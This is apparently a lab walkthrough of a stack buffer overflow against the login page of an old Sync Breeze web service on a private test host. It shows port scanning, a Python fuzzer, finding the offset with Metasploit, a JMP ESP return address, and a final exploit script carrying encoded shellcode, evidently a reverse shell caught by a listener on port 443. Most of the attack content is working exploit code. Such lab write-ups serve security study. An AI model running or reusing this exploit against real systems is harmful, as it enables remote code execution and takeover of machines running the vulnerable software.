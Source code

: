# sync breeze

![image.png](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png>)

*   **Scan machine**

    we start to scan port number by using `unicornscan` tool which is faster than nmap. you can install it by this command `sudo apt install unicornscan`

    ![Screenshot 2025-03-13 231202.png](<../../../../.gitbook/assets/Screenshot_2025 03 13_231202.png>)

    ```bash
    sudo unicornscan -ImT 10.0.2.4:1-2000 # 1-2000 scan ports from 1 to 2000
    ```

    we discovered this ports is open let’s know what’s the service is running for each port

<figure><img src="../../../../.gitbook/assets/Screenshot_2025 03 13_231202.png" alt=""><figcaption></figcaption></figure>

after search we find this is old version which is vulnerable to BOF so lets download this service and try to exploit it in our services

*   **Fuzzing**

    open the browser and Wireshark tool then show the request was sent

    ![Screenshot 2025-03-13 231447.png](<../../../../.gitbook/assets/Screenshot_2025 03 13_231447.png>)

    try to create python code to smash the vulnerable machine

    ```bash
    #!/bin/python3
    import socket
    import sys
    import time
    target_ip = "10.0.2.4"
    target_port = 80  
    l = 100
    step = 100 
    while True:
        try:
            payload = "username=" + "A" * l + "&password=1234"
            request=""
            request+="POST /login HTTP/1.1\r\n"
            request+="Host: 10.0.2.4\r\n"
            request+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
            request+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
            request+="Accept-Language: en-US,en;q=0.5\r\n"
            request+="Accept-Encoding: gzip, deflate\r\n"
            request+="Content-Type: application/x-www-form-urlencoded\r\n"
            request+=f"Content-Length: {len(payload)}\r\n"
            request+="Origin: http://10.0.2.4"
            request+="Connection: keep-alive\r\n"
            request+="Referer: http://10.0.2.4/login\r\n"
            request+="Upgrade-Insecure-Requests: 1\r\n"
            request+="Priority: u=0, i\r\n"
            request+="\r\n"
            request+=payloadS

            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target_ip, 80))
            print(f"Sending {l} bytes...")
            s.send(request.encode())
            response = s.recv(1024) 
            print(f"Response: {response.decode(errors='ignore')}")
            s.close()
            print(f"Trying payload size: {l} bytes...")
            l += step
            time.sleep(1)
        except Exception as e:
            print(f"Fuzzing crashed at {l} bytes")
            sys.exit()
    ```

    run this script and we will notice this machine is crashed after 800 char sent

    ![1.png](../../../../.gitbook/assets/1.png)
*   **locate offset**

    create offset by using Metasploit

<figure><img src="../../../../.gitbook/assets/image 2 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
./pattern_create.rb -l 800
```

then send it by python script we will notice this machine is crashed

<figure><img src="../../../../.gitbook/assets/image 3 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and the offset is 780

let’s know which is four is overwrite in EIP

![3.png](../../../../.gitbook/assets/3.png)

*   **Hijack execution**

    use `nasm shell` tool to transfer **JMP ESP** to op code

<figure><img src="../../../../.gitbook/assets/image 4 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

use mona to search on this code we found this add `10090C83`

after transfer this address to **Little Endian**

<figure><img src="../../../../.gitbook/assets/image 5 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```python
#!/bin/python3
import socket
import sys
import time

target_ip = "10.0.2.4"
target_port = 80   

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"C" * 16
payload = b"username=" + add + b"&password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)
print(f"Response: {response.decode(errors='ignore')}")
s.close()
```

*   **craft shellcode**

    discover bad characters then generate a shell code&#x20;

<figure><img src="../../../../.gitbook/assets/image 6 (1) (1).png" alt=""><figcaption></figcaption></figure>

<pre class="language-python"><code class="lang-python"><strong>#!/bin/python3
</strong>import socket
import sys
import time
target_ip = "10.0.2.4"
target_port = 80   

# ESP add 10090C83

buf =  b""
buf += b"\xd9\xc4\xd9\x74\x24\xf4\x5d\xba\xc3\xd9\xbf\x94"
buf += b"\x29\xc9\xb1\x52\x31\x55\x17\x83\xed\xfc\x03\x96"
buf += b"\xca\x5d\x61\xe4\x05\x23\x8a\x14\xd6\x44\x02\xf1"
buf += b"\xe7\x44\x70\x72\x57\x75\xf2\xd6\x54\xfe\x56\xc2"
buf += b"\xef\x72\x7f\xe5\x58\x38\x59\xc8\x59\x11\x99\x4b"
buf += b"\xda\x68\xce\xab\xe3\xa2\x03\xaa\x24\xde\xee\xfe"
buf += b"\xfd\x94\x5d\xee\x8a\xe1\x5d\x85\xc1\xe4\xe5\x7a"
buf += b"\x91\x07\xc7\x2d\xa9\x51\xc7\xcc\x7e\xea\x4e\xd6"
buf += b"\x63\xd7\x19\x6d\x57\xa3\x9b\xa7\xa9\x4c\x37\x86"
buf += b"\x05\xbf\x49\xcf\xa2\x20\x3c\x39\xd1\xdd\x47\xfe"
buf += b"\xab\x39\xcd\xe4\x0c\xc9\x75\xc0\xad\x1e\xe3\x83"
buf += b"\xa2\xeb\x67\xcb\xa6\xea\xa4\x60\xd2\x67\x4b\xa6"
buf += b"\x52\x33\x68\x62\x3e\xe7\x11\x33\x9a\x46\x2d\x23"
buf += b"\x45\x36\x8b\x28\x68\x23\xa6\x73\xe5\x80\x8b\x8b"
buf += b"\xf5\x8e\x9c\xf8\xc7\x11\x37\x96\x6b\xd9\x91\x61"
buf += b"\x8b\xf0\x66\xfd\x72\xfb\x96\xd4\xb0\xaf\xc6\x4e"
buf += b"\x10\xd0\x8c\x8e\x9d\x05\x02\xde\x31\xf6\xe3\x8e"
buf += b"\xf1\xa6\x8b\xc4\xfd\x99\xac\xe7\xd7\xb1\x47\x12"
buf += b"\xb0\xb7\x97\x1e\x45\xa0\x95\x1e\x44\x8b\x13\xf8"
buf += b"\x2c\xfb\x75\x53\xd9\x62\xdc\x2f\x78\x6a\xca\x4a"
buf += b"\xba\xe0\xf9\xab\x75\x01\x77\xbf\xe2\xe1\xc2\x9d"
buf += b"\xa5\xfe\xf8\x89\x2a\x6c\x67\x49\x24\x8d\x30\x1e"
buf += b"\x61\x63\x49\xca\x9f\xda\xe3\xe8\x5d\xba\xcc\xa8"
buf += b"\xb9\x7f\xd2\x31\x4f\x3b\xf0\x21\x89\xc4\xbc\x15"
buf += b"\x45\x93\x6a\xc3\x23\x4d\xdd\xbd\xfd\x22\xb7\x29"
buf += b"\x7b\x09\x08\x2f\x84\x44\xfe\xcf\x35\x31\x47\xf0"
buf += b"\xfa\xd5\x4f\x89\xe6\x45\xaf\x40\xa3\x76\xfa\xc8"
buf += b"\x82\x1e\xa3\x99\x96\x42\x54\x74\xd4\x7a\xd7\x7c"
buf += b"\xa5\x78\xc7\xf5\xa0\xc5\x4f\xe6\xd8\x56\x3a\x08"
buf += b"\x4e\x56\x6f"

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"\x90" * 32+buf
payload = b"username=" + add + b"&#x26;password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)  
print(f"Response: {response.decode(errors='ignore')}")
s.close()
</code></pre>

*   **execute shellcode**

    open listener on port 443

<figure><img src="../../../../.gitbook/assets/image 7.png" alt=""><figcaption></figcaption></figure>


